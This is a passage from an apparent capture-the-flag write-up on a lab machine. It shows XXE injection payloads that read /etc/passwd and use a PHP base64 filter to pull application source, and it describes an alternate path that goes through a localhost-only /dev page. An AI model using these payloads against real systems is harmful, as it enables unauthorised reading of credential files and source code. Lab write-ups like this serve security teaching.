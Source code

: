     
    
    <!DOCTYPE api [
      <!ELEMENT api ANY>
      <!ENTITY df SYSTEM "file:///etc/passwd">
    ]>
    <api>
        <request>&df;</request>
    </api>
    

![image-20200406124659228](https://0xdfimages.gitlab.io/img/image-20200406124659228.png)

I can try to get PHP source, but it doesn’t show up in the output. Luckily, I
can use PHP filters in XXE just like in PHP. So this payload:

    
    
    <!DOCTYPE api [
      <!ELEMENT api ANY>
      <!ENTITY df SYSTEM "php://filter/convert.base64-encode/resource=/var/www/backup.forwardslash.htb/dev/index.php">
    ]>
    <api>
        <request>&df;</request>
    </api>
    

Returns:

![image-20200406124847799](https://0xdfimages.gitlab.io/img/image-20200406124847799.png)

Which can be decoded just like the other LFI.

### Intended Path - Creds via FTP

I only learned of the intended path after talking to some friends much later
after solving the box. Logged in as a non-admin user, I was able to use
profile picture change form to access `/dev` from localhost. When I get that,
the source for `/dev/index.php` shows up, and there’s a hint in a comment in
at the bottom:

[![](https://0xdfimages.gitlab.io/img/image-20200703222553814.png)_Click for
full size
image_](https://0xdfimages.gitlab.io/img/image-20200703222553814.png)

There’s another reference to FTP:

> TODO: Fix FTP Login

Interestingly, the source shows that this form submits a GET request:

    
    
    <form action="/dev/index.php" method="get" id="xmltest">
    

I wasn’t able to get the page to display back to me `/etc/passwd` the way I
could when I could access the page as admin. But I didn’t spent too much time
on it, rather focusing on FTP. I had to try a few payloads from the
[payloadsallthethings XXE
page](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
but one of the blind payloads worked. I started with this:
